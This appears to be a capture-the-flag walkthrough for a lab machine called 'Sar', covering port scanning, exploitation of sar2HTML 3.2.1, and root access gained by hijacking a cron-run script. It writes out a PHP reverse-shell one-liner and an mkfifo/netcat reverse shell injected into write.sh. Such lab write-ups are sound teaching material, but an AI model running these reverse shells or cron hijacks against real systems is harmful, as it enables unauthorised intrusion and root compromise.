

# Sar


## Recon

### Nmap

```bash
nmap 192.168.205.35 -Pn -T3 -sV -sC

Nmap scan report for 192.168.205.35
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.62 seconds
```

Just find two open port & service, let's enumerate the web directory

### Gobuster

```bash
gobuster dir -u http://192.168.205.35 -w /usr/share/wordlists/dirb/common.txt -t 10   1

===============================================================
2021/07/24 09:23:11 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 10918]
/phpinfo.php          (Status: 200) [Size: 95419]
/robots.txt           (Status: 200) [Size: 9]    
/server-status        (Status: 403) [Size: 279]  
                                                 
===============================================================
2021/07/24 09:25:18 Finished
```

Find interesting `robots.txt` and `phpinfo.php`. Open the robots.txt to find the hidden content from the crawler



We got this, so let's open the `sar2HTML` page to seek out what we can get.


We get the application page and the version is 3.2.1, try to search in exploit DB we get the publicly known exploit


## Exploit


To use the exploit, we need to find the base url so the exploit can add the payload after it. Little exploration in the application page, we get the base url, when we click button "**New**" , sar2HTML build the smiliar query & url with the exploit url, so we can assume the base url is [`http://192.168.205.35/sar2HTML`](http://192.168.205.35/sar2HTML) , so now we can use the exploit.


Let's create the reverse shell so we can get more interactive with the machine. We can use the PHP Reverse Shell from the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php) like this

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

We can use the [URL Decoder/Encoder](https://meyerweb.com/eric/tools/dencoder/) to craft the PHP Reverse Shell into URL encoding


in our machine, create a netcat listener

```bash
nc -lvnp 4444
```

To get the shell, we no longer to use the exploit, just add the payload was encoded into the application url 


And we get the reverse shell


Enumerate the `home` directory, we got first flag


## Privilege Escalation

Enumerate the `crontab` file we see there is a cron job execute by root every 5 minute


Let's see the `finally.sh` file


`finally.sh` was intended to call another script file which is `write.sh`, so jump into the `write.sh`


So with this cronjob flow, we can summary :

1. Every 5 minutes, cron run the `finally.sh` , with the root privilege
2. When `finally.sh` run, it's call another script, `write.sh`
3. `write.sh` will create a new file in `/tmp` directory with name `gateway`

Now we try to replace the content of `write.sh` file (because we have the write permission on that, not the `finally.sh` ) to open the root reverse shell 

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.205 8888 >/tmp/f" > write.sh
```

Then we wait for 5 minutes untill the cron execute the `[finally.sh](http://finally.sh)` untill the connection is open

and we can get the root flag


